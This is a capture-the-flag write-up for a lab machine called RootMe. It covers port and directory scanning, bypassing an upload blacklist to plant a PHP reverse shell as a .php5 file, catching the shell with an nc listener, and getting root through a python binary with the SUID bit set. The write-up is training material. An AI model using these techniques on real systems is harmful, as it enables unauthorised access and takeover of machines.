



# RootMe writeup

## Task 2: Reconnaissance

> Scan the machine, how many ports are open?

A quick `nmap` scan shows 2 ports: 22 and 80

```nmap
# Nmap 7.91 scan initiated Tue May 25 17:24:13 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.157.191
Nmap scan report for box.ip (10.10.157.191)
Host is up, received syn-ack (0.30s latency).
Scanned at 2021-05-25 17:24:13 +07 for 18s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 25 17:24:31 2021 -- 1 IP address (1 host up) scanned in 18.96 seconds
```

> What version of Apache is running?

`2.4.29`, as shown in the `nmap` result

> What service is running on port 22?

SSH

> Find directories on the web server using the GoBuster tool.

```sh
$ gobuster dir -u 'http://box.ip/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -r -o root
/uploads              (Status: 200) [Size: 737]
/css                  (Status: 200) [Size: 1119]
/js                   (Status: 200) [Size: 952]
/panel                (Status: 200) [Size: 732]
```

> What is the hidden directory?

`/panel` is the hidden directory.

## Task 3: Getting a shell

If you check `index.php` at the root page, you'll find that it's a PHP application, so here we'll try uploading [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) as `rev.php`...



... which gives us an error message I'm guessing means "PHP not allowed", so there's some kind of black-listing in place. Since `PHP` is blacklisted, I tried renaming the file to `rev.php5` (note the different file extension)...



... and found that `.php5` is allowed! Remember that we also had the `/uploads` directory from the previous `gobuster` scan. Checking it, we have our reverse shell.



(You can also see other file names I tried that got uploaded but didn't give a shell)

With a listener set up, clicking on `rev.php5` gives us a shell!.

```sh
$ nc -lnvp 1337
Connection from 10.10.157.191:57040
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:45:54 up 25 min,  0 users,  load average: 0.00, 0.03, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can find `user.txt` in `/var/www`

```sh
bash-4.4$ cd /var/www
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt
THM{REDACTED}
```

## Task 4: Privilege Escalation

> Search for files with SUID permission, which file is weird?

We can find SUID files with `find`

```
bash-4.4$ find / -perm /4000 2>/dev/null
...[SNIP]...
/usr/bin/python
...[SNIP]...
```

If you check with your own linux system, you should find that `python` should *not* have the SUID bit set.

> Find a form to escalate your privileges.

You can find how to abuse `python` with the SUID bit set on [gtfobins](https://gtfobins.github.io/gtfobins/python/#shell)

```sh
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

As usual, `root.txt` can be found in `/root`

```
# cat /root/root.txt
THM{REDACTED}
```
